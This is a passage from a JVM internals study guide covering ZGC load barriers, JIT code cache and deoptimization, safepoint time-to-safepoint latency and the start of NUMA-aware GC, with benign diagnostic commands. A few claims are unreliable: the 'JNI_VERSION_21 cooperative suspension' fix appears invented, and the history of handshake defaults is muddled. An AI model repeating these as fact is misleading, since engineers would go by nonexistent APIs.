**Phase 2 - Concurrent Relocation Set Selection:** Identify pages with most garbage. These pages will be compacted (live objects moved out).

**Phase 3 - Concurrent Relocation:** Move live objects from relocation set to new pages. Update forwarding tables. Application threads hitting relocated objects self-heal via load barrier.

**Phase 4 - Concurrent Remap:** Flip expected color bits for next cycle. Load barriers now fix any remaining stale pointers lazily on access.

```text
ZGC cycle (all phases concurrent):
  |Mark|---Select---|Relocate|--Remap--|
  (STW <1ms between phases for handshake)

  Total STW: 3 handshakes * <0.5ms = <1.5ms
  Regardless of heap size (1GB or 1TB)
```


```mermaid
sequenceDiagram
    participant App as Application
    participant LB as Load Barrier
    participant FT as Forwarding Table
    participant GC as ZGC Relocator
    GC->>GC: relocate object from page A to B
    GC->>FT: record: old_offset -> new_addr
    App->>LB: load reference (stale color)
    LB->>FT: lookup forwarding
    FT-->>LB: new address
    LB->>App: return remapped pointer
    LB->>LB: fix reference in-place (self-heal)
```

---

### 🚨 Failure Modes

**Failure 1 - Allocation Stall:**

**Symptom:** GC log shows `ZAllocationStall`. Application threads block waiting for memory. Latency spikes to seconds.

**Root cause:** Allocation rate exceeds ZGC's concurrent collection rate. No free pages available.

**Diagnostic:**

```bash
grep "ZAllocationStall" gc.log
# Also check allocation rate:
grep "Allocation Rate" gc.log | tail -10
```

**Fix:** Increase heap (-Xmx). Reduce allocation rate in code. Increase `-XX:ConcGCThreads`. With Generational ZGC, young gen collection is faster.

**Failure 2 - Throughput Degradation:**

**Symptom:** 8-15% throughput loss compared to G1 (measured via JMH or production metrics). CPU utilization higher at same RPS.

**Root cause:** Load barrier overhead on pointer-heavy workloads. Every object reference load pays the barrier cost.

**Diagnostic:**

```bash
# Compare with G1 on same workload:
# async-profiler shows barrier in hot paths
./profiler.sh -d 30 -f profile.html <pid>
# Look for ZBarrier frames in flame graph
```

**Fix:** Accept as design trade-off if sub-ms pauses are required. For throughput-critical paths, reduce pointer chasing (use arrays, primitive types, value classes in future JDKs).

---

### 🔬 Production Reality

A typical adoption pattern: service migrates from G1 (p99 pause 120ms) to ZGC. Pauses drop to <1ms. However, overall throughput decreases 5-7%. CPU usage increases proportionally. The team must right-size: either add instances to maintain total throughput or accept the trade-off. Generational ZGC (JDK 21+) typically recovers 3-4% of that throughput loss by collecting young objects more frequently with less work. The remaining 2-3% is the inherent load barrier cost that cannot be eliminated.

---

### ⚖️ Trade-offs & Alternatives

| Aspect          | ZGC              | G1             | Shenandoah     |
| --------------- | ---------------- | -------------- | -------------- |
| Max pause       | <1ms             | 50-200ms       | <10ms          |
| Throughput cost | 3-8%             | 2-5%           | 5-10%          |
| Barrier type    | Load (every ref) | Write (stores) | Load + write   |
| Heap range      | 8MB - 16TB       | 1GB - ~32GB    | 1GB - multi-TB |
| Generational    | JDK 21+          | Always         | No             |
| Native mem      | Low (<5%)        | High (RSets)   | Medium         |

---

### ⚡ Decision Snap

**USE ZGC WHEN:**

- Pause time SLA <10ms (ZGC guarantees <1ms).
- Heap size >32GB where G1 pauses scale unacceptably.
- Willing to trade 3-8% throughput for pause guarantee.

**AVOID ZGC WHEN:**

- Every CPU cycle matters (HFT, batch processing).
- JDK <15 (not available) or <21 (no generational).

**PREFER GENERATIONAL ZGC (JDK 21+) WHEN:**

- Want ZGC pauses with better throughput. Always use generational mode on JDK 21+.

---

### ⚠️ Top Traps

| #   | Misconception               | Reality                                                                                             |
| --- | --------------------------- | --------------------------------------------------------------------------------------------------- |
| 1   | "ZGC has zero pauses"       | ZGC has three STW handshakes per cycle (<0.5ms each). Technically not pauseless but sub-ms.         |
| 2   | "ZGC works on 32-bit JVMs"  | ZGC requires 64-bit (uses pointer metadata bits). Not available on 32-bit.                          |
| 3   | "ZGC needs huge heaps"      | Works from 8MB to 16TB. Benefits are proportionally larger for bigger heaps but usable at any size. |
| 4   | "No tuning needed with ZGC" | Still need appropriate -Xmx. Allocation stalls occur if heap too small for allocation rate.         |
| 5   | "ZGC replaces G1 always"    | G1 has better throughput for heaps <16GB. ZGC's advantage is pauses, not throughput.                |

---

### 🪜 Learning Ladder

**Prerequisites:**

- JVM-076 GC Algorithm Internals - Tri-Color Marking - ZGC implements tri-color via colored pointers
- JVM-077 G1GC Remembered Sets and Card Tables - understand what ZGC eliminates (no RSets needed)

**THIS:** JVM-078 ZGC Colored Pointers and Load Barriers

**Next steps:**

- JVM-090 Ahead-of-Time Compilation (GraalVM Native) - alternative approach to eliminating GC pauses
- JVM-094 Heap Fragmentation Under Long-Running Loads - ZGC's concurrent compaction prevents fragmentation

---

**The Surprising Truth:**

ZGC's multi-mapping trick maps the same physical page at three different virtual addresses simultaneously (one per color state). When ZGC "recolors" a pointer, it is actually changing which virtual mapping is used - but all three point to the same physical RAM. This means ZGC's address space usage appears 3x heap size in `/proc/pid/maps`, which confuses monitoring tools. RSS remains correct (physical memory used once) but VIRT looks enormous. This is by design, not a bug.

**Further Reading:**

- JEP 333: ZGC: A Scalable Low-Latency Garbage Collector (JDK 11 preview)
- JEP 439: Generational ZGC (JDK 21) - adding generational semantics
- Per Liden, "ZGC: The Next Generation Low-Latency Garbage Collector" (Oracle DevLive 2023)

**Revision Card:**

1. Colored pointers: 4 metadata bits in pointer encode GC state. Load barrier checks color on every ref access.
2. Self-healing: stale pointers fixed lazily on first load. No STW needed for pointer fixup after relocation.
3. Trade-off: <1ms pauses for 3-8% throughput cost. Use Generational ZGC (JDK 21+) to minimize throughput loss.

**BAD:**

```bash
# Switching to ZGC without understanding trade-offs
java -XX:+UseZGC -Xmx4g -jar service.jar
# Heap too small for allocation rate
# Result: ZAllocationStall - threads blocked
# Worse latency than G1 due to stalls
```

**GOOD:**

```bash
# Proper ZGC sizing: generous heap + monitoring
java -XX:+UseZGC -XX:+ZGenerational \
  -Xmx16g \
  -Xlog:gc*:file=gc.log:time \
  -jar service.jar
# Monitor: grep ZAllocationStall gc.log
# If stalls: increase -Xmx until zero stalls
# Generational mode (JDK 21+) for best throughput
```

---

---

# JVM-079 JIT Code Cache and Deoptimization

**TL;DR** - The JIT compiler stores machine code in a bounded Code Cache; when assumptions are invalidated, deoptimization discards compiled code and falls back to interpretation, causing sudden latency spikes.

---

### 🔥 Problem Statement

A service runs smoothly for hours then suddenly experiences latency spikes at a fixed interval. CPU profile shows interpreter frames appearing in hot paths that were previously JIT-compiled. The Code Cache has filled to its maximum size, triggering emergency flush and re-compilation. Alternatively, a class loading event invalidated JIT assumptions (CHA - class hierarchy analysis), causing mass deoptimization of methods that assumed no subclass override existed. Both scenarios manifest as sudden performance degradation with no obvious application-level cause.

---

### 📜 Historical Context

HotSpot's JIT has existed since JDK 1.3 (2000). The Code Cache was initially undersized (48MB default until JDK 8). JDK 9 introduced segmented Code Cache (JEP 197) splitting into non-method, profiled, and non-profiled segments for better management. Before segmentation, Code Cache exhaustion triggered full emergency flush - discarding ALL compiled code simultaneously, causing catastrophic performance cliffs. Modern JVMs handle this more gracefully but the fundamental problem persists: the Code Cache is bounded, and deoptimization is inherently disruptive.

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. **Speculation correctness:** JIT compiles under assumptions (no subclass overrides, null never observed, type always Integer). If any assumption is violated at runtime, compiled code MUST be invalidated.
2. **Bounded Code Cache:** Physical memory for compiled code is bounded by `-XX:ReservedCodeCacheSize`. When full, no new compilations occur until space is freed.
3. **Deopt is safe but expensive:** Deoptimization transfers execution from compiled code to interpreter at a safepoint. The method must be re-profiled and re-compiled (seconds to minutes of degraded performance).

**DERIVED DESIGN:**

These invariants force: (1) dependency tracking between compiled methods and their assumptions, (2) eager deoptimization when assumptions break, (3) Code Cache sizing that balances memory against compilation capacity.

**THE TRADE-OFF:**

**Gain:** Aggressive speculative optimization (10-50x faster than interpretation). Class hierarchy analysis enables devirtualization and inlining.

**Cost:** Deoptimization storms when assumptions break. Code Cache memory. Warmup time until code is compiled.

---

### 🧠 Mental Model

> JIT compilation is like building a highway based on observed traffic patterns. You observe "only cars use this road" (type speculation) and build a car-only highway (no truck ramps, no height clearance). Blazingly fast for cars. But if a truck appears (new subclass loaded), the highway must be demolished (deoptimized) and rebuilt with truck support. During reconstruction, everyone takes the slow surface road (interpreter).

- "Highway" -> JIT-compiled native code in Code Cache
- "Traffic observation" -> profiling (C1 tier collects data)
- "Car-only" -> speculative optimization (CHA assumption)
- "Truck appears" -> new class loaded that breaks assumption
- "Demolished" -> deoptimization + recompilation
- "Surface road" -> interpreter fallback

**Where this analogy breaks down:** real highways take months to rebuild. JIT recompilation takes milliseconds to seconds - but during that window, the specific method runs 10-100x slower. Also, the JVM does not wait for certainty before building the "highway" - it speculates aggressively based on profiles, accepting demolition as an acceptable cost for speed.

---

### 🧩 Components

- **Code Cache segments (JDK 9+):** Non-method (stubs, adapters), Profiled (C1 code with profiling), Non-profiled (C2 optimized code). Each has independent sizing.
- **Compilation queue:** Methods waiting for C1 or C2 compilation. Priority based on invocation count and backedge count.
- **Dependency table:** Records which compiled methods depend on which assumptions (CHA, constant propagation, type profiles).
- **Uncommon trap:** JIT-inserted check that triggers deoptimization when speculation fails. Transfers to interpreter.
- **On-Stack Replacement (OSR):** Allows compilation of a method while it is already executing (typically long-running loops).
- **CodeCache sweeper:** Background thread that identifies and frees unreachable compiled methods (nmethod sweeping).

```text
Code Cache Layout (JDK 17+):
  [Non-method | Profiled (C1) | Non-profiled (C2)]
   ~8MB         ~128MB          ~128MB
   (stubs)     (w/ profiling)   (fully optimized)

  Total default: ~240MB (ReservedCodeCacheSize)

  Lifecycle of a hot method:
    Interpret -> C1 compile -> Profile ->
    C2 compile -> Possible deopt -> Re-profile
```


```mermaid
flowchart TD
    A[Method called] --> B{Hot enough?}
    B -->|No| C[Interpret]
    B -->|Yes| D[C1 compile + profile]
    D --> E{Very hot?}
    E -->|No| D
    E -->|Yes| F[C2 compile speculative]
    F --> G[Execute optimized code]
    G --> H{Assumption violated?}
    H -->|No| G
    H -->|Yes| I[Deoptimize]
    I --> C
```

---

### 📶 Gradual Depth

**Level 1 - What it is:** The JVM compiles frequently-executed Java methods into native machine code for speed. This code lives in a fixed-size memory area called the Code Cache. When the JVM discovers its assumptions were wrong, it throws away the compiled code (deoptimization) and starts over.

**Level 2 - How to use it:** Monitor Code Cache usage: `jcmd <pid> Compiler.codecache`. Key flag: `-XX:ReservedCodeCacheSize=256m` (increase if cache fills). Enable `-XX:+PrintCompilation` to see compile/deopt events. Watch for "made not entrant" and "made zombie" in compilation logs.

**Level 3 - How it works:** C2 compiles with aggressive assumptions: "this virtual call always resolves to ConcreteImpl.method()" (CHA). When a new class loads that overrides the method, the dependency table triggers deoptimization of all methods depending on that assumption. The compiled nmethod is marked "not entrant" (no new calls), then "zombie" (no active frames), then freed.

**Level 4 - Production mastery:** Mass deoptimization events correlate with: (1) class loading (new classes breaking CHA), (2) first occurrence of rare code paths (uncommon traps), (3) Code Cache exhaustion. Use JFR `jdk.Deoptimization` events to track frequency and cause. Persistent deopt/recompile cycles ("deopt storms") indicate unstable type profiles - often caused by polymorphic dispatch sites that C2 cannot inline profitably.

---

### ⚙️ How It Works

**Phase 1 - Profiling (C1):** C1 compiles method with profiling instrumentation. Tracks: type profiles at call sites, branch probabilities, invocation count.

**Phase 2 - Speculative Compilation (C2):** C2 reads profiles. Generates optimized code with speculations: devirtualization, inlining, null-check elimination, range-check elimination. Each speculation inserts an uncommon trap.

**Phase 3 - Execution:** Optimized code runs at full speed until a speculation fails. Uncommon trap fires, transferring to interpreter at the deopt point.

**Phase 4 - Recovery:** Method re-enters profiling. After sufficient samples with new behavior, C2 recompiles with updated assumptions.

```text
Deoptimization sequence:
  1. Uncommon trap fires (speculation failed)
  2. Frame unwound to interpreter frame
  3. nmethod marked "not entrant"
  4. Method re-profiled in interpreter/C1
  5. Eventually re-compiled by C2
  6. New code has broader assumptions

  Time in degraded state: 1-30 seconds
  (profiling + queue + compile time)
```


```mermaid
sequenceDiagram
    participant C2 as C2 Compiler
    participant Code as Code Cache
    participant App as Application
    participant Int as Interpreter
    C2->>Code: install optimized nmethod
    App->>Code: execute at full speed
    App->>App: uncommon trap fires!
    App->>Int: deoptimize - fall to interpreter
    Int->>Int: re-profile method
    Int->>C2: recompile request (new profile)
    C2->>Code: install new nmethod
    App->>Code: execute new version
```

---

### 🚨 Failure Modes

**Failure 1 - Code Cache Exhaustion:**

**Symptom:** Compilation stops. `CodeCache is full` in logs. Gradual performance degradation as hot methods cannot be compiled.

**Root cause:** Default ReservedCodeCacheSize too small for application with many classes/methods.

**Diagnostic:**

```bash
jcmd <pid> Compiler.codecache
# Check: used vs max. If used > 90%: exhaustion risk
# JFR: jdk.CodeCacheFull events
```

**Fix:** Increase `-XX:ReservedCodeCacheSize=512m`. Also ensure sweeper is running (`-XX:+UseCodeCacheFlushing` default true since JDK 8).

**Failure 2 - Deoptimization Storm:**

**Symptom:** Hundreds of deopts in seconds. Latency spikes. CPU profile shows interpreter frames in hot paths.

**Root cause:** Class loading event invalidating many CHA assumptions simultaneously. Or Spring/Hibernate proxy creation loading classes that break inlining assumptions.

**Diagnostic:**

```bash
# JFR deoptimization events:
jcmd <pid> JFR.dump filename=deopt.jfr
# In JMC: filter jdk.Deoptimization events
# Look for "reason" and "action" fields
```

**Fix:** Warm up with realistic traffic patterns before serving production load. Pre-load all classes during startup. Use `-XX:+PrintCompilation` to identify repeatedly deoptimized methods.

---

### 🔬 Production Reality

A common incident pattern with microservice deployments: service uses Spring AOP proxies. During startup, only the concrete class is loaded (CHA assumes no overrides). JIT aggressively devirtualizes. First AOP proxy call (60 seconds after startup when transaction interceptor fires) loads the proxy class, breaking CHA for dozens of inlined methods. Mass deoptimization causes a p99 latency spike exactly once, 60 seconds after each deployment. Fix: eager proxy creation during startup, or warmup period in readiness probe that exercises all code paths before receiving production traffic.

---

### ⚖️ Trade-offs & Alternatives

| Aspect          | JIT (HotSpot C2)    | AOT (GraalVM native)  | JIT (GraalVM CE)  |
| --------------- | ------------------- | --------------------- | ----------------- |
| Peak throughput | Highest (speculate) | Lower (conservative)  | High (better IR)  |
| Warmup time     | Seconds-minutes     | None (pre-compiled)   | Seconds-minutes   |
| Deopt risk      | Yes (dynamic)       | None (no speculation) | Yes (less common) |
| Code Cache size | ~240MB default      | N/A (in binary)       | ~240MB            |
| Memory          | Moderate            | Low (no JIT state)    | Moderate          |

---

### ⚡ Decision Snap

**INCREASE CODE CACHE WHEN:**

- Large application with >20K methods compiled.
- JFR shows CodeCacheFull events or sweeper activity.
- `-XX:ReservedCodeCacheSize=512m` (safe default for large apps).

**INVESTIGATE DEOPT WHEN:**

- Latency spikes correlate with class loading events.
- JFR shows repeated deopts of same method (unstable profile).

**PREFER AOT COMPILATION WHEN:**

- Startup time critical and peak throughput not essential.
- Cannot tolerate warmup-related latency variation.

---

### ⚠️ Top Traps

| #   | Misconception                   | Reality                                                                                       |
| --- | ------------------------------- | --------------------------------------------------------------------------------------------- |
| 1   | "Deopt means my code is buggy"  | Deopt is normal JIT behavior. It means a speculation was invalidated, not that code is wrong. |
| 2   | "Code Cache is unlimited"       | Bounded by ReservedCodeCacheSize. Default ~240MB. Large apps can exhaust it.                  |
| 3   | "C2 is always better than C1"   | C2 code is faster but takes longer to compile and can deopt. C1 is stable baseline.           |
| 4   | "Deopt only happens at startup" | Late class loading (plugins, lazy init, reflection) causes deopts hours into operation.       |
| 5   | "One deopt is a problem"        | Single deopts are normal. STORMS (hundreds at once) indicate structural issues.               |

---

### 🪜 Learning Ladder

**Prerequisites:**

- JVM-052 JIT Compilation Tiers (C1 and C2) - understand the tier system that feeds the Code Cache
- JVM-053 Inlining and Escape Analysis - understand optimizations that create deopt dependencies

**THIS:** JVM-079 JIT Code Cache and Deoptimization

**Next steps:**

- JVM-080 Safepoint Bias and Time-To-Safepoint Latency - deopts happen at safepoints
- JVM-093 The Billion-Dollar Safepoint Bug Pattern - deopt-triggered safepoints as latency source

---

**The Surprising Truth:**

The `-XX:+PrintCompilation` output hides a crucial detail: "made not entrant" does NOT mean the code is immediately freed. Active stack frames still execute the old code until they return. Only when zero frames reference the nmethod does it become "zombie" and eligible for sweeping. A long-running method (batch processing loop) can pin a deoptimized nmethod for minutes, preventing Code Cache reclamation. This is why OSR (On-Stack Replacement) exists - it allows replacing the code of an already-executing method mid-loop.

**Further Reading:**

- JEP 197: Segmented Code Cache (JDK 9)
- OpenJDK wiki: "Performance Techniques" - deoptimization mechanics
- Cliff Click, "A Crash Course in Modern Hardware" - CPU cache effects on Code Cache locality

**Revision Card:**

1. Code Cache is bounded (~240MB default). If full, no new compilations. Monitor with `jcmd Compiler.codecache`.
2. Deoptimization = speculation invalidated. Method falls to interpreter for 1-30 seconds during re-profiling and recompilation.
3. Deopt storms correlate with class loading. Warm up all code paths before production traffic.

**BAD:**

```java
// Default Code Cache with large application
java -Xmx8g -jar large-monolith.jar
// 40K methods compiled, Code Cache fills at 240MB
// "CodeCache is full. Compiler disabled."
// Performance degrades permanently
```

**GOOD:**

```java
// Sized Code Cache + monitoring
java -Xmx8g \
  -XX:ReservedCodeCacheSize=512m \
  -XX:+UseCodeCacheFlushing \
  -Xlog:codecache=info \
  -jar large-monolith.jar
// Monitor: jcmd <pid> Compiler.codecache
// Alert if used > 80% of reserved
```

---

---

# JVM-080 Safepoint Bias and Time-To-Safepoint Latency

**TL;DR** - Safepoints are JVM synchronization points where all threads must stop; Time-To-Safepoint (TTSP) latency from slow threads reaching safepoints creates hidden tail latency invisible to application metrics.

---

### 🔥 Problem Statement

A service shows p99 latency of 15ms but p99.9 spikes to 200ms with no correlation to request complexity. Thread dumps during spikes show most threads parked at safepoints while one thread is in a tight computational loop. The JVM requested a safepoint (for GC, deoptimization, or biased lock revocation) but cannot proceed until ALL threads reach a safe state. One thread running JIT-compiled code in a counted loop without safepoint polls delays the entire JVM. This TTSP latency is invisible to application metrics - it appears as unexplained jitter affecting all threads simultaneously.

---

### 📜 Historical Context

Safepoints have been part of HotSpot since its inception. Originally, every back-edge (loop iteration) contained a safepoint poll. JDK 10 introduced loop strip mining (JEP 312) to reduce safepoint poll frequency while maintaining bounded TTSP. JDK 17 added `-XX:+UseThreadLocalHandshakes` as default (JEP 312 in JDK 10, on by default JDK 17) enabling per-thread operations without global safepoints. Before these improvements, TTSP was a major source of unexplained latency in HotSpot JVMs.

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. **Global safepoint requires ALL threads:** No thread can be in the middle of modifying the heap when GC needs a consistent view. Every managed thread must reach a safepoint.
2. **TTSP = max(time for any thread to reach safepoint):** The slowest thread determines total pause overhead. One slow thread blocks all others.
3. **JIT-compiled counted loops are safepoint-free:** C2 eliminates safepoint polls from counted loops (loop bounds known at compile time) for performance. These loops are TTSP blind spots.

**DERIVED DESIGN:**

These invariants mean: (1) every thread must periodically poll for safepoint requests, (2) compiled code must include safepoint polls at reasonable intervals, (3) long-running loops without polls create TTSP spikes. Loop strip mining (JDK 10+) limits inner loop iterations between polls.

**THE TRADE-OFF:**

**Gain:** Safepoints enable GC, deoptimization, thread dumps, and biased lock revocation - all requiring a consistent JVM state.

**Cost:** TTSP latency (every thread blocked until slowest arrives). Safepoint polls add minor overhead to compiled code.

---

### 🧠 Mental Model

> A safepoint is a traffic light that turns red for ALL lanes simultaneously. Every car (thread) must stop at the next intersection (safepoint poll). The intersection is only cleared when EVERY car has stopped. One car on a highway (counted loop) with no intersections for miles delays all traffic. TTSP is the time the slowest car takes to reach an intersection after the light turns red.

- "Red light" -> safepoint requested (by GC, deopt, etc.)
- "Cars stopping" -> threads reaching safepoint polls
- "Last car" -> slowest thread (determines total TTSP)
- "Highway without intersections" -> counted loop without polls
- "All traffic blocked" -> entire JVM frozen waiting for one thread

**Where this analogy breaks down:** in real traffic, other lanes proceed independently. In JVM safepoints, ALL threads freeze until the last one arrives. There is no partial execution - it is all-or-nothing. Thread-local handshakes (JDK 10+) are like targeted traffic lights for individual lanes.

---

### 🧩 Components

- **Safepoint poll:** A memory load from a guarded page. When safepoint is requested, the page is protected, causing a trap (SIGSEGV on Linux) that transfers control to the safepoint handler.
- **TTSP (Time-To-Safepoint):** Elapsed time between safepoint request and all threads arriving. The metric that matters for tail latency.
- **Loop strip mining (JDK 10+):** Transforms long counted loops into outer loop (with safepoint poll) + inner loop (poll-free, bounded iterations). `-XX:LoopStripMiningIter=1000` controls inner loop size.
- **Thread-local handshakes:** Per-thread safepoint-like operations without stopping all threads. Used for biased lock revocation (JDK 15+), stack watermarks.
- **Safepoint log:** `-XX:+PrintSafepointStatistics` or `-Xlog:safepoint` shows TTSP for each safepoint event.
- **JFR SafepointBegin/End events:** Record safepoint duration, TTSP, and requesting operation.

```text
Safepoint timeline:
  Request -> Wait for threads -> Operation -> Resume
  |         |--- TTSP ---|     |--pause--|
  |                           GC/deopt/etc
  Total stall = TTSP + operation time

  Typical:
    TTSP: 0.1-5ms (good) / 50-500ms (bad)
    Operation: varies (GC pause, deopt, etc.)
```


```mermaid
sequenceDiagram
    participant GC as GC (requests safepoint)
    participant T1 as Thread 1 (at poll)
    participant T2 as Thread 2 (in counted loop)
    participant VM as VM Thread
    GC->>VM: request safepoint
    VM->>T1: arm poll page
    T1->>VM: arrived at safepoint (fast)
    Note over T2: no poll in loop...
    Note over T2: still running...
    T2->>VM: finally reaches poll
    VM->>GC: all stopped, proceed
    GC->>GC: do GC work
    GC->>VM: done
    VM->>T1: resume
    VM->>T2: resume
```

---

### 📶 Gradual Depth

**Level 1 - What it is:** A safepoint is a moment when all JVM threads are paused simultaneously. The JVM needs this for garbage collection, taking thread dumps, and other operations that require a consistent view of memory. TTSP is how long it takes for all threads to pause.

**Level 2 - How to use it:** Monitor TTSP with `-Xlog:safepoint` or JFR `jdk.SafepointBegin` events. High TTSP (>10ms) indicates threads stuck in code without safepoint polls. Use `-XX:LoopStripMiningIter=1000` (default since JDK 10) to bound TTSP from counted loops.

**Level 3 - How it works:** The JVM arms a memory page when it wants a safepoint. Threads executing compiled code periodically load from this page (the safepoint poll). When armed, the load traps (SIGSEGV), and the trap handler suspends the thread at a known-safe point. Counted loops in C2 code have polls only at the outer strip-mine boundary, limiting how long a thread can be unresponsive.

**Level 4 - Production mastery:** TTSP creates invisible tail latency: your application timer starts AFTER the safepoint completes, so TTSP adds latency that no application metric captures. A 50ms TTSP adds 50ms to EVERY request in flight during that safepoint. Diagnose with JFR correlation: safepoint events + latency spikes at same timestamp. Native code (JNI) is a TTSP blind spot - threads in native code do not respond to safepoint polls. They only check upon JNI call return. Long-running native operations (OpenSSL, BLAS) create unbounded TTSP.

---

### ⚙️ How It Works

**Phase 1 - Safepoint Request:** VM thread determines a safepoint is needed (GC trigger, deopt, thread dump). Arms the polling page.

**Phase 2 - Thread Convergence:** Each thread hits a safepoint poll (method return, back-edge, or explicit poll). Polls trap on armed page. Thread suspends at known-safe state.

**Phase 3 - Operation:** Once ALL threads are safe, the requested operation executes (GC mark, deopt, etc.).

**Phase 4 - Resume:** Operation complete. Polling page disarmed. Threads resume from their suspension points.

```text
TTSP sources ranked by severity:
  1. JNI native code (unbounded TTSP)
  2. Counted loops without strip mining
  3. Large array operations (System.arraycopy)
  4. GC thread competing for page table lock
  5. CPU migration/scheduling delays

Mitigation:
  1. Keep JNI calls short; poll on reentry
  2. -XX:LoopStripMiningIter (default 1000)
  3. No fix (intrinsic, bounded by size)
  4. Kernel tuning (rarely needed)
  5. Pin threads to cores (numactl)
```


```mermaid
flowchart TD
    A[Safepoint requested] --> B[Arm poll page]
    B --> C[Thread in compiled code?]
    C -->|Yes at poll| D[Trap - suspend immediately]
    C -->|In counted loop| E[Wait for strip boundary]
    C -->|In JNI| F[Wait for JNI return]
    E --> D
    F --> D
    D --> G{All threads safe?}
    G -->|No| C
    G -->|Yes| H[Execute operation]
    H --> I[Disarm page - resume all]
```

---

### 🚨 Failure Modes

**Failure 1 - Counted Loop TTSP Spike:**

**Symptom:** Periodic 50-200ms TTSP visible in safepoint log. Correlates with batch processing or sorting operations.

**Root cause:** C2-compiled counted loop without safepoint polls. Common in: `Arrays.sort()`, manual array processing, matrix operations.

**Diagnostic:**

```bash
# Enable safepoint logging:
-Xlog:safepoint=info
# Look for high "spin" or "block" times
# JFR: jdk.SafepointBegin with long duration
```

**Fix:** Ensure JDK 10+ (loop strip mining default). If still high, reduce loop bounds or restructure as uncounted loop (add opaque condition that prevents C2 from counting).

**Failure 2 - JNI TTSP Stall:**

**Symptom:** Unbounded TTSP (seconds). Thread dump shows one thread in native code. All other threads blocked at safepoint.

**Root cause:** Long-running JNI call (crypto operations, native compression, ML inference). Thread does not respond to safepoint until JNI call returns.

**Diagnostic:**

```bash
# Thread dump during TTSP shows:
# "thread X" in native (JNI) code
jcmd <pid> Thread.print | grep -A2 "native"
```

**Fix:** Break long JNI operations into smaller chunks that return to Java periodically. Or use `JNI_VERSION_21` cooperative suspension (JDK 21+). For crypto: use Java crypto providers instead of JNI OpenSSL where possible.

---

### 🔬 Production Reality

A typical latency investigation: service has p99=15ms but p99.9=180ms. No correlation to request size. JFR shows safepoint events with TTSP of 150-170ms every 60 seconds. The culprit: a background analytics thread running a `for(int i=0; i<10_000_000; i++)` loop compiled by C2 on JDK 8 (no strip mining). All 200 request-handling threads freeze for 150ms waiting for this one thread. Fix: upgrade to JDK 11+ (strip mining default) or refactor the loop. The key insight: this latency is INVISIBLE to application-level instrumentation because the timer itself is frozen during the safepoint.

---

### ⚖️ Trade-offs & Alternatives

| Aspect       | Global safepoint    | Thread-local handshake | No safepoint (native) |
| ------------ | ------------------- | ---------------------- | --------------------- |
| Scope        | ALL threads stop    | ONE thread targeted    | Thread unaware        |
| Use case     | GC, deopt, dump     | Biased lock revoke     | JNI native code       |
| TTSP impact  | Worst-case all      | None (per-thread)      | Delays safepoints     |
| Availability | All JDK versions    | JDK 10+ (default 17)   | Always                |
| Throughput   | Poll overhead ~0.1% | Similar                | No overhead           |

---

### ⚡ Decision Snap

**INVESTIGATE TTSP WHEN:**

- p99.9 latency unexplained by application logic.
- JFR shows SafepointBegin events >10ms.
- Thread dumps show threads "waiting for safepoint."

**MITIGATE TTSP WHEN:**

- JDK <10 (no strip mining). Upgrade immediately.
- JNI calls exceed 10ms (restructure to shorter calls).
- Background processing has tight counted loops.

**ACCEPT TTSP WHEN:**

- Values are <2ms consistently. This is normal JVM operation.

---

### ⚠️ Top Traps

| #   | Misconception                 | Reality                                                                                                          |
| --- | ----------------------------- | ---------------------------------------------------------------------------------------------------------------- |
| 1   | "Safepoint = GC pause"        | Safepoints serve many purposes: GC, deopt, thread dump, bias revoke. GC is just one trigger.                     |
| 2   | "My app metrics capture TTSP" | TTSP freezes your timer thread too. It is invisible to in-process instrumentation. External monitoring required. |
| 3   | "JDK 11+ has no TTSP issues"  | Strip mining bounds LOOP TTSP. JNI, large arraycopy, and kernel scheduling still cause spikes.                   |
| 4   | "More threads = faster TTSP"  | TTSP = MAX(single thread arrival). More threads increase probability of one slow thread existing.                |
| 5   | "Short methods avoid TTSP"    | TTSP is about reaching a poll, not method duration. A 1ns method returning through a long loop still delays.     |

---

### 🪜 Learning Ladder

**Prerequisites:**

- JVM-055 Safepoints - What Stops the World - basic safepoint concept
- JVM-079 JIT Code Cache and Deoptimization - understand deopt as safepoint trigger

**THIS:** JVM-080 Safepoint Bias and Time-To-Safepoint Latency

**Next steps:**

- JVM-093 The Billion-Dollar Safepoint Bug Pattern - specific catastrophic TTSP patterns
- JVM-095 JVM Fleet Observability - Key Metrics - TTSP as fleet-level metric

---

**The Surprising Truth:**

Profiling tools that sample at safepoints (jstack, VisualVM sampling) have "safepoint bias" - they ONLY see threads at safepoint-safe locations. Methods that spend time between safepoints (tight loops, native code) are systematically under-represented. A method consuming 40% of CPU in a counted loop appears as 0% in safepoint-biased profilers. This is why async-profiler (signal-based, not safepoint-biased) shows fundamentally different results. If your CPU profiler and async-profiler disagree significantly, safepoint bias is the reason.

**Further Reading:**

- JEP 312: Thread-Local Handshakes (JDK 10)
- Nitsan Wakart, "The OpenJDK/Safepoints" blog series
- JEP 376: ZGC: Concurrent Thread-Stack Processing (JDK 16) - reducing safepoint scope

**Revision Card:**

1. TTSP = time for slowest thread to reach safepoint. One slow thread blocks ALL. Invisible to app metrics.
2. Counted loops (C2) are blind spots. Strip mining (JDK 10+) bounds TTSP. JNI calls remain unbounded.
3. Use async-profiler (signal-based) to avoid safepoint bias. Safepoint-based profilers systematically miss hot loops.

**BAD:**

```java
// Tight counted loop without safepoint awareness
public long compute(int[] data) {
    long sum = 0;
    for (int i = 0; i < 100_000_000; i++) {
        sum += data[i % data.length];
    }
    return sum; // TTSP: 200ms+ on JDK 8
}
```

**GOOD:**

```java
// JDK 10+ with strip mining (automatic)
// Or manual safepoint-friendly structure:
public long compute(int[] data) {
    long sum = 0;
    int len = data.length;
    for (int i = 0; i < 100_000_000; i += len) {
        for (int j = 0; j < len && i+j < 100_000_000;
             j++) {
            sum += data[j];
        }
        // Safepoint poll at outer loop boundary
    }
    return sum; // TTSP bounded by inner loop
}
```

---

---

# JVM-081 NUMA-Aware GC and Memory Allocation

**TL;DR** - NUMA-aware GC allocates objects in memory local to the accessing CPU socket, reducing cross-socket memory latency from 100ns to 60ns and improving throughput on multi-socket servers.

---

### 🔥 Problem Statement

A 2-socket server runs a JVM with 128GB heap. Performance benchmarks show 30% less throughput than expected from doubling hardware. Memory profiling reveals constant cross-socket traffic: threads on socket 0 accessing objects allocated on socket 1's memory controller. Each cross-socket access adds 40-70ns latency (compared to local ~60ns). Without NUMA-aware allocation, the JVM treats all RAM as uniform - allocating from whichever free page is convenient - destroying memory locality that modern hardware relies on for peak performance.

---

### 📜 Historical Context

